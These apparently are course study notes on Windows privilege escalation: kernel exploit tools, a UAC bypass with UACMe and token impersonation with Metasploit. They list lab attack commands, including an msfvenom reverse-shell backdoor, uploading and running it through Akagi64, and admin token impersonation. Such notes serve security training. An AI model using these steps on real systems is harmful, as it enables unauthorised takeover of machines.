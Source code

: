 
# Windows Privilege Escalation
#### Windows Kernel Exploits:
##### Elevate privileges from one user to another, a user with administrative or root access
#### Windows Kernal
- kernel is a computer program that is the core of an operating system
- Windows NT is the kernel that comes pre-packed with all versions of Microsoft Windows
- has two main modes
	- User Mode 
	- Kernel Mode - has unrestricted access
#### Windows Kernal Exploitation
- privilege escalation on Windows systems will follow the following methodology
	- identifying Kernel vulnerabilities
	- downloading, compiling and transferring kernel exploits onto the target system
- process differs for different Windows versions
- tools
	- [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
	- [Windows-Kernel-Exploits](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16- 135)
- techniques - Manually, Metasploit
- Metasploit
	- obtain a meterpreter session on your target
	- use a the suggester module to check kernel vulns
	- use an exploit
	- that is it
- Manually
	- use two previous tools
 	- 

### Bypassing UAC with UACMe
- User Account Control
	- windows security feature
- Bypassing UAC
- have access to a user account that is part of local administrator group
- tools to be used depends on the version of windows running
- [UACMe](https://github.com/hfiref0x/UACME) - tool
	- allows attackers to execute malicious payloads with administrative privileges
- Process
- `$ nmap -sV 10.10.10.10`
- `$ service postgresql start && msfconsole`
- `$ setg RHOSTS 10.10.10.10`
- `$ search rejetto``
- `$ use `
- `$ set options`
- `$ run`
- Check if the user is part of the administrator group
- `$ sysinfo`
- `$ pgrep explorer`
- `$ migrate 2448`
- `$ sysinfo`
- `$ getprivs`
- `$ shell`
- `$ net user`
- `$ net localgroup administrators`
**Using UACMe**
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=yourip LPORT=1234 -f exe > backdoor.exe`
- `msfconsole`
- `use multi/handler`
- `set payload windows/meterpreter/reverse_tcp`
- `set LHOST your IP`
- `set LPORT 1234`
- `run`
- back to first Metasploit
- `cd C:\\`
- `mkdir Temp`
- `cd Temp`
- `upload backdoor.exe`
- `upload /root/Desktop/tools/UACME/Akagi64.exe`
- `shell`
- `.\Akagi64.exe 23 C:\Temp\backdoor.exe` -- here 23 is the method 23 which takes advantage of the package manager and lets us execute the file.
- back to second Metasploit

### Access Token Impersonation
- are core element of the authentication process on windows
- are created and managed by the Local Security Authority Subsystem Service (LSASS)
- controls what users can and cannot on the system
- two types
	- Impersonate-level tokens
	- Delegate-level tokens
- privilleges are required for successful impersonation attack
	- SeAssignPrimaruToken
	- SeCreateToken
	- SelmpersonatePrivilege
- The Incognito Module
	- built-in meterpreter module
	- we use for displaying a list of available tokens that we can impersonate
- **sample process** 
- `$ nmap 10.10.10.10`
- `$ service postgresql start && msfconsole`
- `$ search rejetto`
- `$ use 0`
- `$ set options`
- `$ run`
- `$ sysinfo`
- `$ pgrep explorer`
- `$ migrate to that number`
- `$ getuid`
- `$ getprivs`
- we have the SeImpersonatePrivilege
**Using Incognito module**
- `$ load incognito`
- `$ list_tokens -u `
- `$ impersonate_token "Attackdefence\admmm...."`
- `$ getuid`
- `$ getprivs`
- `$pgrep explorer`
- `$ migrate to that number`
- `$ getuid`
- `$ getprivs`
- if you don't get the tokens, use the potato attack - will be discussed in another video
